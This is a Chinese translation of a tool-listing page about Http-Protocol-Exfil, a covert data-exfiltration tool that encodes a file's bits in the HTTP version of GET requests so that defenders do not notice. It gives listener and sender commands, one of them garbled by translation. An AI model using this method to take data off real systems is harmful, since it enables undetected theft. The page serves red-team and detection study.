



# Http-Protocol-Exfil:使用 Http 协议版本过滤文件(“HTTP/1.0”是 0，“HTTP/1.1”是 1)

> 原文：<https://kalilinuxtutorials.com/http-protocol-exfil/>

**Http-Protocol-Exfil** 使用 Http 协议版本逐位发送一个文件(“HTTP/1.0”为 0，“HTTP/1.1”为 1)。它使用 GET 请求，所以蓝队只会看到对你的 IP 地址的请求。但是，发送较大的文件需要很长时间，例如，发送 200 KB 的文件需要 1 个小时，并且请求量会非常高(是文件字节数的 8 倍)。

**创建监听器**

要运行侦听器，请使用带有一个可选参数的 listener.py:它将侦听的端口。

**python3 listener.py [PORT]**

示例:

**python3 listener.py 8080**

**发送文件**

要发送文件，请使用带有两个强制参数的 sender.py:文件路径和侦听器的 url 还有一个可选参数:远程创建的文件的名称(如果不使用，则使用输入文件的名称)。

**python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]**

示例:

**python 3 sender . py-u " http://127 . 0 . 0 . 1:8080 "-I test . txt-o up**dated _ test . txt

**例子**

首先发送文件:

如果变量 debug 设置为 True(默认情况下)，您可以在侦听器日志消息中看到二进制值:

新文件是用输入文件的内容创建的:

[**Download**](https://github.com/ricardojoserf/http-protocol-exfil)